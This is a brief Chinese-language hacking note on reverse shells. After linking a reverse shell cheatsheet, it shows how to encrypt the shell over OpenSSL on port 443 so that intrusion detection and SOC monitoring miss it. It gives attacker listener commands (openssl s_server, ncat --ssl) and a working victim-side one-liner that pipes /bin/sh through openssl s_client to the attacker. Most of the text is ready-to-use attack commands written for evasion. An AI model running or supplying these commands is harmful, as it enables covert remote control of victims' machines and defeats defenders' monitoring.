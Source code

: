 ### 反弹shell的各种方法

适用于不同系统(windows/linux) 不同语言环境(python/node/Java/Golang...)

直接参考 [PayloadsAllTheThings/Reverse Shell Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

⚠️因为没有使用加密通信 所以各防御系统(IDS/IPS/SOC...)能够从通信流量中获取明文传输的通信数据(命令字符串)!

### 反弹shell-加密通信

反弹shell,可使用**OpenSSL**实现加密通信,能够避免"通信数据"被轻易检测

因为SSL/TLS加密通信流量常见于443端口,所以建议使用443端口进行通信(避免"在非标准端口使用TLS协议通信" 导致告警)


```shell
# hacker
# 主控端 在443端口开启监听

# 2个方法 任选其一:

# 方法1
hacker@kali$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
hacker@kali$ openssl s_server -quiet -key key.pem -cert cert.pem -port 443

# 方法2
hacker@kali$ ncat --ssl -vv -l -p 443

Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 1CDB C287 FA7E 0EB0 CBC9 3F8C 42C9 CA52 48DE 9484
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
```


```shell
# victim
# 被控端 主动外连 主控端的端口
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 127.0.0.1:443 > /tmp/s; rm /tmp/s
```

